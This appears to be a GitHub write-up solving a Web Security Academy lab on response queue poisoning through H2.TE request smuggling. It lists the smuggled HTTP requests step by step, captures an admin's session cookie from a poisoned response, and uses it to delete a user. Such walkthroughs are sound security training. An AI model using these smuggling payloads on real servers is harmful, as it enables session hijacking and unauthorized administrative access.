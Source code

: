 # Response queue poisoning via H2.TE request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection

step 1

```
Transfer-Encoding: chunked
Content-Length: 11

0

userid=test

```

![screenshot](./images/images_lab11/lab11_not_found_404.png)

step 2

```
Transfer-Encoding: chunked
Content-Length: 67

0

GET /post?postId=5 HTTP/1.1
Content-Length: 12

userid=test

```

![screenshot](./images/images_lab11/lab11_post_id_5.png)

step 3

```
Transfer-Encoding: chunked
Content-Length: 59

0

GET /admin HTTP/1.1
Content-Length: 12

userid=test
```

HTTP/2 401 Unauthorized

![screenshot](./images/images_lab11/lab11_http_2_http_1_1.png)

step 4

```
POST /x HTTP/2
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
```

![screenshot](./images/images_lab11/lab11_found_302.png)

note down details

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=stQrgL4chP9frilHAvELZpfBT85oG1fW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length:
```

step 5
`session=stQrgL4chP9frilHAvELZpfBT85oG1fW`

![screenshot](./images/images_lab11/lab11_admin_panel.png)

step 6

click on admin panel and delete carlos account

![screenshot](./images/images_lab11/lab11_lab_solve_delete_carlos.png)

